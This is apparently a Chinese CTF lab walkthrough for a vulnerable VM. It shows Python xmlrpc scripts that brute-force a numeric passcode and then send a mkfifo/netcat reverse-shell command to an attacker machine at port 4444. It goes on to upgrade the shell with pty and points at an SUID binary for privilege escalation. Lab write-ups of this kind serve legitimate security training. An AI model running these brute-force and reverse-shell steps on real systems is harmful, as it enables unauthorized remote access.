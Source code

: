         ![](https://img-blog.csdnimg.cn/1c2db28b7b824e5b8cd37c6173127ab8.png)

*   查了一下

        ![](https://img-blog.csdnimg.cn/279e3aa658874ca2845d5b60e04dd3ef.png)

*   py 客户端代码编写

①先进行简单测试：通过脚本请求了服务端的 cpu 信息，服务端接受到 cpu 请求后，通过其 API 接口执行了客户端的请求，查询到了目标服务器 CPU 的信息

<table border="1" cellspacing="0"><tbody><tr><td><p># cat a.py import xmlrpc.client</p><p>with xmlrpc.client.ServerProxy("<a href="http://192.168.56.112:8000/" rel="nofollow" title="http://192.168.22.137:8000/">http://192.168.22.137:8000/</a>") as proxy:</p><p>print(str(proxy.cpu()))</p><p></p><p># python3 a.py</p></td></tr></tbody></table>

②修改客户端代码，通过暴力破解的方式，把服务器端的 random 随机生成的数字 passcode 破解出来

<table border="1" cellspacing="0"><tbody><tr><td><p># cat b.py</p><p>import xmlrpc.client</p><p>with xmlrpc.client.ServerProxy("<a href="http://192.168.56.112:8000/" rel="nofollow" title="http://192.168.22.137:8000/">http://192.168.22.137:8000/</a>") as proxy:</p><p>&nbsp;&nbsp;&nbsp;&nbsp;for p in range(1000,10000):</p><p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;r = str(proxy.secure_cmd('whoami',p))</p><p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if not "Wrong" in r:</p><p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;print(p)</p><p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;print(r)</p><p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;break</p><p># python3 b.py&nbsp;&nbsp;</p></td></tr></tbody></table>

③编写客户端代码，通过上一步暴力破解出的 passcode 值，使服务器执行自定义系统命令（此处为反弹 shell 命令）

        编写客户端代码

<table border="1" cellspacing="0"><tbody><tr><td><p># cat a.py</p><p>import xmlrpc.client</p><p>with xmlrpc.client.ServerProxy("<a href="http://192.168.56.112:8000/" rel="nofollow" title="http://192.168.22.137:8000/">http://192.168.22.137:8000/</a>") as proxy:</p><p>&nbsp;&nbsp;&nbsp;&nbsp;cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2&gt;&amp;1|nc 192.168.22.129 4444 &gt;/tmp/f"</p><p>&nbsp;&nbsp;&nbsp;&nbsp;r = str(proxy.secure_cmd(cmd,4902))</p><p>&nbsp;&nbsp;&nbsp;&nbsp;print(r)</p></td></tr></tbody></table>

*   先运行 b.py 获取固定的数字

        ![](https://img-blog.csdnimg.cn/5cda8b1b3cdc42e699da4b4f3764fba9.png)

然后把数字写入到 c.py 并运行—kali 同时开启监听

        ![](https://img-blog.csdnimg.cn/fd058c5fefa04dd6923d0d0e82b894fe.png)

*   好不容易拿到这个 shell 后门，需要将它升级的更为友好！

socnet@socnet2:~$ **python -c "import pty;pty.spawn('/bin/bash')"**

*   在 cocnet 这个家目录下的 add_recprd 这个文件，需要看一看

通过 file 文件查看 add 这个文件格式，得到的结果是 ELF 32 位的

通过对 add 这个文件格式查看，得到在运行时是通过运行 suid，并且在文件权限中也是有这样的权限位

可以明白靶机的作者的意图，在于通过这个文件的 SUID 权限位来进行提权（因为这个文件的属主账号是 root ）

